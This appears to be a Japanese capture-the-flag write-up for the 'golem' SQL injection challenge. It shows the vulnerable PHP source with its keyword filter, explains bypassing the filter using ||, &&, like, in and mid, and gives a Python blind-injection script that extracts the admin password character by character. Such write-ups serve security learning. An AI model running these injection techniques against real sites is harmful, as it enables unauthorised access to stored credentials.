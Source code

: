 ### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
### 考察
pwを当てる必要がある．
``` php
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
```
pwで"="が使えない．like，in関数で対応する．
``` php
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 

```

文字数を確認する際には，以下のようになる．
``` php
select id from prob_golem where id='guest' and pw='' || id in('admin') && length(pw) like 8#'
```


また，substr関数が使えないため，他の関数（mid, left, right）で対応する．

``` php
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
```

pwの文字数を数える．

以下のスクリプトを書いた．
``` python
import requests
import string

url = 'https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php'

mycookie = {
    'PHPSESSID': ''
}

letters = string.digits + string.ascii_letters
ans = ""

for i in range(1, 9):
    for letter in letters:
        response = requests.get(url + "?pw=' || id in ('admin') " + "%26" + "%26" + " mid(pw, {index}, 1) like \'{char}\' -- #".format(index = i, char = letter), cookies=mycookie)        
        if 'Hello admin' in response.text:
            ans += letter
            break
print(ans)
```